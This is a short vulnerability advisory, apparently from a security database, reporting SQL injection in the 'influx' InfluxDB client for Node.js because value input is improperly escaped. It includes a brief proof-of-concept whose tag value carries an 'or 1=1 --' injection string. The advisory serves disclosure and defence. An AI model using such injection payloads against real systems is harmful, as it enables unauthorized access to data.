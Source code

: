influx is an InfluxDB Client for Node.js and Browsers.
Affected versions of this package are vulnerable to SQL Injection due to improperly escaping value input. 
###PoC
const influx = require('influx')
const exp = new influx.Expression();
exp.tag('symbol').equals.value("GAZP()\\' or 1=1 --").toString()